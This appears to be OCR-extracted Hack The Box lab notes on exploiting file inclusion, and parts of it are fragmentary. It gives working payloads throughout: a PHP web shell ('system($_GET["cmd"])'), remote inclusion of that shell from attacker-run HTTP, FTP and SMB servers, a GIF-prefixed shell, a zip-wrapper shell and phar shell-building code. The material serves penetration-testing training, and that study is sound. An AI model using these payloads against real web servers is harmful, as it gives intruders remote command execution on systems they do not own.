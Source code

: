 1. The vulnerable function may not allow including remote URLs
2. You may only control a portion of the filename and not the entire protocol wrapper (ex: `http://`, `ftp://`, `https://`).
3. The configuration may prevent RFI altogether, as most modern web servers disable including remote files by default.

`XeroCyb3r@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include`

`XeroCyb3r@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php`

- `XeroCyb3r@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>`:`http://<LISTENING_IP>:<LISTENING_PORT>/shell.php&cmd=id`
- `sudo python -m pyftpdlib -p 21`:`ftp://kali:kali@94.237.58.109/shell.php&cmd=id`
- `impacket-smbserver -smb2support share $(pwd)`:`\\<OUR_IP>\share\shell.php&cmd=whoami`

## Image File Uploads

| Function | Read Content | Execute | Remote URL |
| --- | --- | --- | --- |
| PHP |  |  |  |
| include()/include_once() | ✅ | ✅ | ✅ |
| require()/require_once() | ✅ | ✅ | ❌ |
| NodeJS |  |  |  |
| res.render() | ✅ | ✅ | ❌ |
| Java |  |  |  |
| import | ✅ | ✅ | ✅ |
| .NET |  |  |  |
| include | ✅ | ✅ | ✅ |

`XeroCyb3r@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`

## Zip Uploads

`XeroCyb3r@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`

`zip://./profile_images/shell.jpg%23shell.php&cmd=id`

## Phar Upload

```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
